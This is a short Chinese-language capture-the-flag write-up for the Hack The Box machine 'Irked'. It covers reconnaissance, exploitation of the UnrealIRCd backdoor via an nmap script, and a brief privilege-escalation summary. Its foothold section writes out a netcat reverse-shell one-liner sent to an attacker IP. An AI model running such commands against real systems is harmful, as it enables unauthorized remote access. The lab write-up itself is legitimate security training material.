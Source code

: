 ```yaml
---
title: Irked Writeup
date: 2020-11-30 22:23:47
category: Hack The Box
---
```


# Irked Writeup

![](./0.png)

## 0x01 信息收集

![](./1.png)


## 0x02 枚举
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse 10.10.10.117
```
![](./5.png)

## 0x03 立足点
``` bash
nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f &' 10.10.10.117
```
![](./6.png)

## 0x04 提权
exim4 - 4.84-2 看有提权漏洞，实则兔子洞，很坑。
![](./7.png)

另辟蹊径，轻松提权。
![](./10.png)


## 0x05 攻击节点
信息收集 -> nmap 漏洞扫描 -> 6697.unrealircd(ircd) -> viewuser 服务执行文件(root)

## 0x02 学到什么
#### 1、善用 `nmap --script vuln`。
#### 2、警惕兔子洞，走不通要果断放弃，另辟蹊径。